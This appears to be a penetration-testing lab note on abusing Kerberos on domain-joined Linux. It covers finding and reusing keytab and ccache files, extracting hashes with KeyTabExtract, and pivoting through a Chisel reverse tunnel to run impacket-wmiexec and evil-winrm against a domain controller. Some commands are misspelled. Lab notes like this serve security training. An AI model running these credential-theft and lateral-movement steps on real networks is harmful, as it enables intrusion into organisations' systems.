 # Kerberos on Linux
- Linux stores Kerberos tickets as ccache files in /tmp. 
- By default, the location of the Kerberos ticket is stored in the environmnet variable KRB5CCNAME.
- Keytab file: contains pairs of Kerberos principals and encyrpted keys.

# Scenario
- LINUX01 is connected to Domain Controller, can only be reached by MS01
- Two ways to connect to LINUX01:
    - RDP to MS01, then from MS01 SSH to LINUX01
    - Use portforwarding
    ```shell
    ssh $USER@$DOMAIN@$IP -p 2222
    
    # By connecting to port TCP/2222 on MS01, we will gain access to port TCP/22 on LINUX01
    ```
    
# Identify Linux and Active Directory Integration
### Check if Linux is Domain joined
  - realm
    ```shell
      realm list
    ```
  - PS
    ```shell
      ps -ef | grep -i "windbind\|sssd"
    ```
# Finding Kerberos Tickets in Linux
### Finding Keytab files
- Using Find
```shell
  find / -name *keytab* -ls 2>/dev/null
```
### Identify Keytab Files in Cronjobs
```shell
  crontab -l
```
- Look for **kinit**, which allows interation with Kerberos, and its function si to request the users's TGT and store this ticket in the cache. 
### Finding ccache Files
- Review Environemnet Variables for ccache files
```shell
  env | grep -i krb5
```
### Search for ccache files in /tmp
```shell
  ls -la /tmp
```
# Abusing KeyTab files
### Listing Keytab file information
```shell
  klsit -k -t
```
1. Impersonating a user wiht a keytab
```shell
  klist
  kinit $USER@DOMAIN -k -t /opt/specialfiles/$USER.keytab
  klist
```
- Connect to SMB as the user
```shell
  smblcient //$DOMAIN/$USER -k -c ls
```
- NOTE: to keep the ticket from the current session, before importing the keytab, save a copy of the ccache file present in the environment variable KRB5CCNAME

2. Keytab Extract
- Use [KeyTabExtract](https://github.com/sosdave/KeyTabExtract) to extract valuable information from 502-type .keytab files.
```shell
python3 /opt/keytabextract.py /opt/specialfiles/$USER.keytab
```
- Log in as the user
```shell
  su - $USER@DOMAIN
  klist
```
- Obtain more hashes: we can continue investigate the keytab file found in the cronjob, repeat the process and gain more hashes.

# Abuse Keytab ccache
- Escalte privilege (when possible) to read the ccache files
```shell
  ls -la /tmp
```
- Check the group of the users:
```shell
id $USER@$DOMAIN
```
- To use ccache file, we need to assign the file to the KRB5CCNAME variable
```shell
  cp /tmp/$CCACHEFILE .
  export KRB5CCNAME=/root/$CCACHEFILE
  klist
```

-------------------------------
# Using Linux Attack Tools with Kerberos
-------------------------------
- When using tools from a domain-joined machine, we need to ensure our KRB5CCNAME environment variable is set to the ccache file we want to use. When attacking from a machine that is not a member of domain, we need to use [Chisel](https://github.com/jpillora/chisel) [proxychains](https://github.com/haad/proxychains) and edit the host file.
```shell
cat /etc/hosts
172.16.1.10 inlanefreight.htb   inlanefreight   dc01.inlanefreight.htb  dc01
172.16.1.5  ms01.inlanefreight.htb  ms01
```
- Configure Proxychains file to use socks5 and port 1080
```shell
    cat /etc/proxychains.conf
    socks5 127.0.0.1 1080
```
- Download Chisel to PWNBOX
```shell
    wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
    gzip -d chisel_1.7.7_linux_amd64.gz
    mv chisel_* chisel && chmod +x ./chisel
    sudo ./chisel server --reverse 
```
- RDP to MS01 machine
- Execute chisel from MS01 machine
```shell
    chisel.exe client $PWNBOX_IP:8080 R:socks
```
- Transfer ccache file from LINUX-1 and create environment varialbe KRB5CCNAME with the value corresponding to the path of the ccachfile
```shell
    export KRB5CCNAME=/home/htb-student/$CCACHE_FILE
```

## Impacket
- Use Impacket with proxychains and Kerberos Authentication
```shell
    # PWNBOX
    proxychains impacket-wmiexec ms01 -k
    
    # if prompted for a password, use -no-pass option
 ```
 ## Evil-winrm
 - Must install the package
 ```shell
    # PWNBOX
    sudo apt-get install krb5-user -y
 ```
 - Configure the Keberos file for the Domain
 ```shell
     cat /etc/krb5.conf
     default_realm = INLANEFREIGHT.HTB
     
     [realms]
    INLANEFREIGHT.HTB = {
        kdc = dc01.inlanefreight.htb
    }
 ```
 - Using Evil-WinRM with Kerberos
 ```shell
    proxychains evil-winrm -i dc01 -r inlanefreight.htb
 ```

